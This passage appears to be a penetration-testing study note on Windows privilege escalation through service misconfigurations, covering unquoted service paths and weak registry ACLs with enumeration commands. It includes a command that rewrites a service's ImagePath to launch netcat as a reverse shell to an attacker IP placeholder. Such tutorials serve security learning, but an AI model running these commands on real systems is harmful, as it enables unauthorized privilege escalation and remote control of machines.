 Star the service again:
```console
C:\zeropio> sc start WindScribeService
```

Verify is running:
```console
C:\zeropio> sc query WindScribeService
```

### Unquoted Service Path 

When a service is installed, the registry configuration specifies a path to the binary that should be executed on service start. If this binary is not encapsulated within quotes, Windows will attempt to locate the binary in different folders. Using the following path:
```
C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
```

Windows will decide the execution method of a program based on its file extension, so it's not necessary to specify it. Windows will attempt to load the following potential executables in order on service start, with a .exe being implied. 
```console
C:\zeropio> sc qc SystemExplorerHelpService
```

If we can create the following files, we would be able to hijack the service binary and gain command execution in the context of the service:
- `C:\Program.exe\`{: .filepath}
- `C:\Program Files (x86)\System.exe`{: .filepath}

We can identify unquoted service binary paths using the command below:
```console
C:\zeropio> wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

### Permissive Registry ACLs 

It is also worth searching for weak service ACLs in the Windows Registry. We can do this using **accesschk**:
```console
C:\zeropio> accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services

...
RW HKLM\System\CurrentControlSet\services\ModelManagerService
        KEY_ALL_ACCESS
```

We can abuse this using the PowerShell cmdlet Set-ItemProperty to change the ImagePath value, using a command such as:
```console
PS C:\htb> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe <OUR IP> 443"
```

### Modifiable Registry Autorun Binary
